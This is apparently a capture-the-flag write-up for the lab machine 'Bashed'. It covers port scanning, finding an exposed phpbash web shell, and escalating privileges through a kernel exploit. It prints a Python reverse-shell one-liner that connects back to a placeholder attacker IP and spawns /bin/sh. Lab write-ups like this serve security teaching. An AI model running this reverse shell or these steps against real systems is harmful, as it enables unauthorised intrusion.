




## info



Bashed is an easy-level box where we exploit a vulnerable web shell to gain access and escalate privileges to root.

## Enumeration

### Nmap Scan

The first step in our attack is scanning the target using Nmap to identify open ports and running services.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-21 10:34 CET
  Nmap scan report for 10.10.10.68
  Host is up (0.073s latency).
  Not shown: 999 closed ports
  PORT   STATE SERVICE VERSION
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Arrexels Development Site

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
```
  
The scan reveals a web server running on port 80. Visiting the website, nothing interesting was found. Next, we use ffuf to enumerate directories

### Directory Enumeration

Since a web server is active, we use **ffuf** for directory brute-forcing to uncover hidden paths.



One interesting discovery is the **/dev** directory. Upon navigating to it, we find a file named **phpbash.php**—a web-based shell.



## Gaining Initial Access

### Web Shell Exploitation



Accessing `phpbash.php` provides us with an interactive web shell. However, to gain a more stable shell, we establish a **reverse shell** using Python.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Executing this command gives us a shell as the **www-data** user. Exploring the system, we identify two users: **scriptmanager** and **arrexel**. The user flag is found in arrexel’s home directory.


## Privilege Escalation

### Exploiting Sudo Privileges

A quick privilege check reveals that the **scriptmanager** user has sudo permissions to execute commands. Switching to scriptmanager provides us with more privileges.

### Kernel Exploitation

Running `uname -a` reveals that the machine is using an **outdated Linux kernel (4.4)**. Researching known vulnerabilities for this version leads us to a **publicly available kernel exploit**. Since the target machine does not have a compiler, we compile the exploit on our attacker machine and transfer it to the target.

Executing the exploit successfully grants root access.


Upon execution, the exploit grants us **root access**.

## Conclusion

The **Bashed** machine demonstrates how misconfigured and exposed web shells can lead to full system compromise. We successfully leveraged:

- **Directory enumeration** to find a vulnerable web shell.
- **A reverse shell** to gain initial access.
- **Privilege escalation** via outdated kernel exploitation.

This challenge highlights the importance of securing web directories, restricting shell access, and keeping systems updated to prevent potential security threats. Always ensure web applications are configured securely and avoid exposing sensitive tools to the public.

Stay tuned for more CTF write-ups and ethical hacking techniques!

